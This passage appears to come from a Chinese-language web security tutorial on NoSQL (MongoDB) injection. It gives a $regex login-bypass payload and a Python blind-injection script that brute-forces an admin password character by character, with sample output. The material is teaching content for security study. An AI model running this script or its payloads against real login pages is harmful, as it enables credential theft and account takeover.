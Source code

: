 ```php
}
else{
    echo 'Login Failed';
}
?>
```

判断playload：

```php
username=admin&password[$regex]=.{number}
```

附上m师傅的盲注脚本

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c

# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```

#### 1.5.5.2 时间盲注
